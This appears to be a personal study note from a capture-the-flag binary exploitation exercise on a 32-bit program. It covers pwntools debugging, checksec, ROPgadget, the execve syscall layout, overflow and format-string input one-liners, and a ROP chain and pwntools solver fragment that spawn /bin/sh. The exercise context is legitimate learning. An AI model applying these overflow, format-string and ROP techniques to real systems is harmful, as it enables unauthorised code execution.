

# Lesson
- how to debug your exploit code on an assemblry level with `pwntools`
  ```python
  exe = ELF("./vuln")
  r = gdb.debug(exe.path, '''
       break *0x08049db4
       break *0x08049dc0
       continue
       ''')
  ```
  - caution: "DEBUG" code provided by `pwninit` does not work well.  
- NX bit  
  whether shellcode is effective or not  
  https://d2v.hatenablog.com/entry/2021/06/24/003258  
  ```json
  {
    ...
    "nx": "no", -> cannot run shellcode just inserted on memory
    ...
  }
  ```
  - Sigreturn-oriented programming (SROP)  
    - Stack hopping exploits   
    If mechanisms such as data execution prevention are employed, it won't be possible for the attacker to just place a shellcode on the stack and cause the machine to execute it by overwriting the return address. With such protections in place, the machine won't execute any code present in memory areas marked as writable and non-executable. Therefore, the attacker will need to reuse code already present in memory.
- Sigreturn-oriented programming (SROP)  
  https://en.wikipedia.org/wiki/Sigreturn-oriented_programming  

- `ROPgadget`  
  `ROPgadget` is installed with pwntools.
  ```zsh
  # use python3 with pwntools
  $ ROPgadget --binary ./vuln --re "pop ebx"
  ```
  - in case that you want to put some data in an address  
    search "ptr" like this  
    ```
    $ ROPgadget --binary ./vuln --re "mov dword ptr" | grep ret
    ```

- how to input bytes value on stdin
  ```zsh
  (python -c "print 'a' * 76 + '\xe6\x85\x04\x08';") | ./vuln
  ```
  or
  ```zsh
  $ echo -e '\xdd\xcc\xbb\xaa%46c%6$n' | ./q4
  ```
  - how can I input bytes value during `pwndbg`  
    This does not work well.
    ```
    n << (python -c "print '\x90\x90'")
    n << (echo -e '\x90\x90')
    ```
- `execve`  
  https://en.wikipedia.org/wiki/Exec_(system_call)  
  https://wiki.mma.club.uec.ac.jp/ytoku/Slides/Pwn%E5%8B%89%E5%BC%B7%E4%BC%9A  
  https://manpages.ubuntu.com/manpages/focal/ja/man2/execve.2.html  
  - how to know the usage of `execve` on a machine code level
    1. qwrite simple c programe that use the system call - for instance `execve`  
        ```c
        #include <stdio.h>
        #include <unistd.h>

        int main() {
            // Specify the file name and arguments
            char *args[] = { "/bin/sh", "-l", NULL };

            // Specify environment variables
            char *envp[] = { NULL };

            // Call the execve system call and start a new process
            execve(args[0], args, envp);

            // This line will not be executed if the execve system call succeeds
            perror("execve failed");
            return 1;
        }
        ```
    2. compile it  
        When you exploit 32bit-OS, compile it on 32bit-OS.  
        When you exploit 64bit-OS, compile it on 64bit-OS. 
        ```zsh
        (32/64-OS)$ gcc test.c -o test.0
        ```
    3. debug it with `gdb` and check it  
        - just before calling system call for execve on 32bit.  
         
        - result
          ```
          x86  

          int 0x80  
          eax = 11  
          args: ebx, ecx, edx, esi, edi, ebp  

          ebx = (arbitrary address) -> /bin/sh  
          ecx = 0  
          edx = 0  
          ```

# Quetions
- how to choose an arbitrary access
- why "/bin//sh", not "/bin/sh"
- `sysenter` vs. `int 0x80`  
  Looking at the binary I created for 32bit, there are both `sysenter` and `int 0x80`.  
  Does a compiler insert both instructions for invoking system call so that cpu can handle it regardless of cpu version?  
  https://gist.github.com/kiris/3103290  

# Memo
1. check
    ```zsh
    $ file ./vuln
    ./vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
    $ checksec --file=./vuln --output=json | jq .
    {
      "./vuln": {
        "relro": "partial",
        "canary": "no",
        "nx": "no",
        "pie": "no",
        "rpath": "n/a",
        "runpath": "n/a",
        "symbols": "yes",
        "fortify_source": "no",
        "fortified": "0",
        "fortify-able": "0"
      }
    }
    ```

2. `ghidra` and `gdb`  
get break point address  

3. write exploit  
- create ROP chain  
  - manual  
    - goal
      ```
      int 0x80
      eax = 11
      ebx = (address) -> /bin/sh
      ecx = 0
      edx = 0
      ```
    - overview of stack for rop chain  
      ```
      1. (set /bin/sh on an arbitrary address)  
      2. 0x080583b9 : pop edx ; pop ebx ; ret  
      3. 0  
      4. (arbitrary address)  
      5. 0x08049e29 : pop ecx ; ret  
      6. 0  
      7. 0x080b073a : pop eax ; ret  
      8. 11  
      9. 0x0804a3c2 : int 0x80  
      ```
  - rely on `pwntools`  
    - solver2.py  
      ```python
      exe = ELF("./vuln")
      ...
      rop = ROP(exe)
      rop.gets(0x080e5060)
      rop.execve(0x080e5060, 0, 0)
      print(rop.dump())

      payload += rop.chain()

      r.sendline(payload)
      r.sendline(b"/bin//sh") # /bin/sh does not work well.
      ```


# Ref  
- https://qiita.com/housu_jp/items/2be2b8147f35a4d6a6ce  